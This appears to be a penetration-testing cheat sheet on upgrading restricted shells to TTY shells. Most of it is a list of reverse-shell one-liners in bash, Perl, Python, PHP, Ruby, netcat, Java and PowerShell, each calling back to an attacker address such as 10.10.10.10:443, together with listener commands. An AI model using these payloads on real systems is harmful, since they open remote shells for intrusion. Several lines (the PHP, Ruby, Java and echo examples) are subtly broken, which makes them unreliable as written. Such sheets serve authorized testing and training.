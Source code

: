 ## Non-interactive tty-shell

If you have a non-tty-shell you're limited in your ability to operate. This can happen if you upload reverse shells to a webserver and get a shell such as www-data. These users are not meant to have shells as they don't interact with the system.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

If you get one of these shells you can upgrade it to a tty-shell using the following methods:

Stabilizing the shell:
```bash
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice:
export TERM=xterm
```

**Using python**
```bash
# Python2
python -c 'import pty; pty.spawn("/bin/sh")'

# Python3
python3 -c "import pty; pty.spawn('/bin/bash')"
```

**Echo**
```bash
echo 'os.system('/bin/bash')'
```

**sh**
```bash
/bin/sh -i
```

**bash**
```bash
/bin/bash -i
```

**Perl**
```bash
perl -e 'exec "/bin/sh";'
```

**From within VI**
```bash
:!bash
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

# Listeners
```bash
# Netcat
[sudo] rlwrap nc -nvlp <port>
```

## Payloads
https://www.revshells.com/

### Linux
```bash
# bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &%d 2>&%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash

# Netcat without -e : -u for UDP
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [-u] 10.10.10.10 443 > /tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &5 >&5; done"] as String[])
p.waitFor()
```
PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally `/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)
### Windows
PowerShell reverse shell available [here](https://github.com/samratashok/nishang) PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell) Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)
```powershell
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```